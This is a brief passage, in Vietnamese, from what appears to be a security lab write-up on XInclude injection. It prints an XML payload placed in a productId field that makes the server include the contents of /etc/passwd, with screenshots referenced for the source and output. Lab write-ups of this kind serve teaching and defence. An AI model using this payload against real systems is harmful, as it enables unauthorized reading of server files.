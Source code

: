 ![lab7](./img/labs7.png)

Sau đó 2 giá trị này sẽ được ghi vào file XML trên hệ thống. Ta chỉ kiếm soát được phần giá trị của 2 biến này nên ta sẽ thực hiện XInclude attack vào ``productId``

Ta dùng payload sau:
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Outout:

![lab7](./img/lab7-out.png)
